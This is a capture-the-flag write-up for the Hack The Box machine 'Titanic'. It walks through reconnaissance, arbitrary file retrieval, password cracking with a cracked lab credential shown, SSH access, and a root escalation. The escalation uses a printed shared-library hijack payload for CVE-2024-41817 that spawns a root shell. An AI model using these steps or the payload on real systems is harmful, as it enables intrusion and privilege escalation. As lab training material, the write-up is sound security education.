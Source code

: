 % HTB Writeup - Titanic
% Sofa Sin Relleno
% 25/06/2025

---

# Summary

**Titanic** is a medium-difficulty HTB machine that involves:

- Web exploitation via an insecure GET endpoint.
- Database extraction and password cracking.
- SSH access to a user account.
- Privilege escalation via `LD_LIBRARY_PATH` hijack in a vulnerable ImageMagick (CVE-2024-41817) root process.

---

# Reconnaissance

## Nmap Scan

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.55
| Port | Service | Version |
| ---- | ------- | ------- |
| 22   | SSH     | OpenSSH |
| 80   | HTTP    | Apache  |


# Web Enumeration

Navigating to http://10.10.X.X reveals a basic Titanic-themed webpage.
Using Burp Suite, I intercepted a vulnerable GET request that allowed arbitrary file retrieval. Exploiting this, I accessed and downloaded a SQLite database containing hashed user credentials.

# Cracking Credentials

Extracted hashes from the database and cracked them using hashcat:

hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

Username: developer
Password: 25282528

# Initial Access

Logged in via SSH:

ssh developer@10.10.11.55

# Privilege Escalation

After login, I listed running processes:

With pspy64 (downloaded via wget on a local server previously set on my machine) I could see which processes were running root (besides mine) since, via developer, I can't access this information.

Found a root-owned ImageMagick process. After researching, I discovered a relevant vulnerability: CVE-2024-41817 — a shared library hijack via LD_LIBRARY_PATH.

This vulnerability allows an attacker to create a fake libxcb.so.1 file in a writable directory and trick the root process into loading it.

# Exploiting CVE-2024-41817

Crafted a malicious shared object:

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
EOF

Placed the .so in the directory from which the root process was loading libraries. As soon as the process restarted or reloaded the lib, I got a root shell.

# Takeaways

    Do not expose sensitive files or databases through GET endpoints.

    Passwords should never be stored unhashed, and hashes should be properly salted.

    Use tools like ps, lsof, or strace to monitor suspicious processes.

    Always validate third-party libraries — ImageMagick is a known attack vector.
